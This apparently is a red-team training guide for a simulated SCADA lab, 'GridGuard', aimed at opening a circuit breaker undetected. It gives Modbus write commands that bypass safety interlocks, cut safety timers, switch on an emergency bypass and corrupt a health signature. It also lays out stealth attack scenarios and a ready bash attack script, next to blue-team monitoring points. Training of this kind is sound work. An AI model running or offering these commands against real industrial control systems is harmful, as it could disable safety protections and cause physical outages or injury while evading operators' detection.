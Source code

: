 # Red Team Attack Vectors Guide - GridGuard SCADA
## PLC Program: breaker_control_redteam_ready.st

### 🎯 **PRIMARY OBJECTIVE**
Manipulate the circuit breaker to open undetected while avoiding detection by:
- The anomaly detector monitoring loading percentages
- PLC-based security monitoring
- SCADA dashboard alerts

---

## 🔴 **ATTACK VECTORS**

### **1. Maintenance Override Bypass** 
**Target:** `%MD12` (maintenance_override register)
**Technique:** Write `0xDEADBEEF` to bypass all safety interlocks
**Modbus Command:**
```bash
# Write to holding register 12 (MD12)
modbus write --address 12 --value 3735928559  # 0xDEADBEEF in decimal
```
**Detection Risk:** High - triggers security event counter and maintenance LED
**Stealth Level:** Low

### **2. Safety Timer Manipulation**
**Target:** `%MD16` (safety_timer_preset register)
**Technique:** Reduce safety timer to minimize delay detection window
**Modbus Command:**
```bash
# Reduce safety timer to minimum (still within acceptable range to avoid detection)
modbus write --address 16 --value 50
```
**Detection Risk:** Medium - values outside 50-500 trigger security violations
**Stealth Level:** Medium

### **3. Emergency Bypass Activation** ⚠️ **HIGH STEALTH**
**Target:** `%QX0.5` (emergency_bypass output)
**Technique:** Set emergency bypass for immediate breaker control
**Modbus Command:**
```bash
# Set emergency bypass coil
modbus write --coil 5 --value 1
```
**Detection Risk:** Medium - increments security event counter but may appear legitimate
**Stealth Level:** High

### **4. System Health Signature Corruption** 🎯 **PERSISTENCE**
**Target:** `%MD20` (health_signature register)
**Technique:** Corrupt signature for persistent backdoor access
**Modbus Command:**
```bash
# Corrupt health signature
modbus write --address 20 --value 1234567890
```
**Detection Risk:** High - immediately marks system as compromised
**Stealth Level:** Low (but provides persistence)

### **5. Covert Channel Communication** 🕵️ **ADVANCED**
**Target:** `%QX0.6` (debug_mode) + monitoring `covert_channel_data`
**Technique:** Use debug mode for steganographic command and control
**Modbus Commands:**
```bash
# Enable debug mode
modbus write --coil 6 --value 1

# Monitor covert channel data
modbus read --address 24 --count 1  # Read covert_channel_data
```
**Detection Risk:** Low - appears as debug activity
**Stealth Level:** Very High

---

## 🔵 **BLUE TEAM DETECTION STRATEGIES**

### **Monitoring Points**
1. **Security Event Counter (`%MD8`)** - Watch for rapid increments
2. **Last Command Time (`%MD4`)** - Detect unexpected command timing
3. **System Compromise Flag** - Monitor security_alert_led (%QX0.4)
4. **Memory Register Changes** - Track writes to critical registers

### **Anomaly Patterns to Monitor**
- Sudden drops in safety_timer_preset values
- Activation of emergency_bypass during normal operations  
- Health signature modifications
- Unusual debug mode activation patterns
- Command timing outside normal operational windows

### **SCADA Integration Points**
Monitor these Modbus addresses for suspicious activity:
```
%MD8  (Address 8)  - Security event counter
%MD12 (Address 12) - Maintenance override key
%MD16 (Address 16) - Safety timer preset  
%MD20 (Address 20) - Health signature
%QX0.4 (Coil 4)   - Security alert LED
%QX0.5 (Coil 5)   - Emergency bypass
%QX0.6 (Coil 6)   - Debug mode
```

---

## 🎮 **ATTACK SCENARIOS**

### **Scenario 1: Stealth Bypass** ⭐ **RECOMMENDED FOR TESTING**
1. Enable debug mode for reconnaissance: `modbus write --coil 6 --value 1`
2. Reduce safety timer slightly: `modbus write --address 16 --value 75`
3. Wait for normal operation window
4. Activate emergency bypass briefly: `modbus write --coil 5 --value 1`
5. Trigger breaker open via normal start/stop logic
6. Disable emergency bypass: `modbus write --coil 5 --value 0`
7. Restore safety timer: `modbus write --address 16 --value 100`
8. Disable debug mode: `modbus write --coil 6 --value 0`

### **Scenario 2: Maintenance Masquerade**
1. Activate maintenance override: `modbus write --address 12 --value 3735928559`
2. Control breaker directly via start button input
3. Clean up: `modbus write --address 12 --value 0`

### **Scenario 3: Persistence Attack**
1. Corrupt health signature: `modbus write --address 20 --value 999999`
2. System remains flagged as compromised
3. Use compromised state for ongoing access

---

## 📊 **SUCCESS METRICS**

### **Red Team Success:**
- Breaker state changed without anomaly detector alerts
- Loading percentage drops to 0% (indicating successful attack)
- Security event counter remains low (<5 events)
- No persistent security alert LED activation

### **Blue Team Success:**  
- Detect attack within 30 seconds of initiation
- Anomaly detector flags unusual loading patterns
- Security monitoring identifies unauthorized memory writes
- Proper correlation between PLC events and SCADA alerts

---

## 🛠️ **TESTING COMMANDS**

### **Setup Test Environment**
```bash
# Start GridGuard system
./start.sh

# Upload red team ready PLC program via OpenPLC web interface
# http://localhost:8080
# Upload: plc_logic/programs/breaker_control_redteam_ready.st
```

### **Monitor System Status**
```bash
# Check security event counter
modbus read --address 8 --count 1

# Check system health  
modbus read --address 20 --count 1

# Monitor breaker state
modbus read --coil 0 --count 1
```

### **Attack Execution Template**
```bash
#!/bin/bash
echo "🔴 Starting Red Team Attack Simulation"
echo "Target: Circuit Breaker Control"

# Your attack commands here
modbus write --coil 5 --value 1    # Emergency bypass
sleep 2
modbus write --coil 0 --value 0    # Force breaker open
sleep 5  
modbus write --coil 5 --value 0    # Disable bypass

echo "✅ Attack sequence completed - Check anomaly detector for detection"
```

---

## ⚠️ **SAFETY NOTES**

This is a **simulation environment** designed for cybersecurity training. In real industrial environments:
- Never attempt unauthorized PLC access
- Always follow proper safety protocols
- Obtain explicit permission before security testing
- Document all activities for incident response training

**Happy Red Team Testing! 🕵️‍♂️**